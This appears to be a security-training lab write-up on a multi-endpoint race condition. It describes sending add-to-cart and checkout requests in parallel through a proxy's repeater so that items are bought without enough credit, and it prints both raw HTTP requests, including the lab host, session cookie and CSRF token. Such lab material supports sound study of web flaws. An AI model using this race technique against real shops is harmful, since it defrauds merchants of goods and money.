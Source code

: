 # Multi Endpoint Race Condition

The shop has 2 security-sensitive endpoints:

`POST /cart`

`POST /cart/checkout` 

The 1st one adds an item to the cart, 2nd one verifies the funds and processes the checkout.

However, the following race condition attack is possible:

1. Cart has items & can be purchased (i.e. bypassing Business flaw logic of “Cart is empty”)

2. With a cart that can be purchased, If we send `POST /cart`  and `POST /cart/checkout` in parallel using Repeater (Send group in parallel)

3. When met certain timing, the order may be verified before it checked out. So, there is a window when we can add infinite products to the cart before it’s checked out, and still succeed. This way, we can purchase items we didn’t have credits for.

```bash
POST /cart HTTP/2
Host: 0ab50027049569e68108936b0032001d.web-security-academy.net
Cookie: session=pX2s8QO5Cp5BuLMvEFXU9vOYucBv8JOV
Content-Length: 36
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="123", "Not:A-Brand";v="8"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Upgrade-Insecure-Requests: 1
Origin: https://0ab50027049569e68108936b0032001d.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.6312.122 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0ab50027049569e68108936b0032001d.web-security-academy.net/product?productId=2
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Priority: u=0, i

productId=1&redir=PRODUCT&quantity=1
```

```bash
POST /cart/checkout HTTP/2
Host: 0ab50027049569e68108936b0032001d.web-security-academy.net
Cookie: session=pX2s8QO5Cp5BuLMvEFXU9vOYucBv8JOV
Content-Length: 37
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="123", "Not:A-Brand";v="8"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Upgrade-Insecure-Requests: 1
Origin: https://0ab50027049569e68108936b0032001d.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.6312.122 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0ab50027049569e68108936b0032001d.web-security-academy.net/cart
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Priority: u=0, i

csrf=zShy65HjGL92qVedpI2Q2TUYBM8pfoF2
```

![image.png](Multi%20Endpoint%20Race%20Condition%201e8021737a89807dadcac1c096b4a892/image.png)

![image.png](Multi%20Endpoint%20Race%20Condition%201e8021737a89807dadcac1c096b4a892/image%201.png)
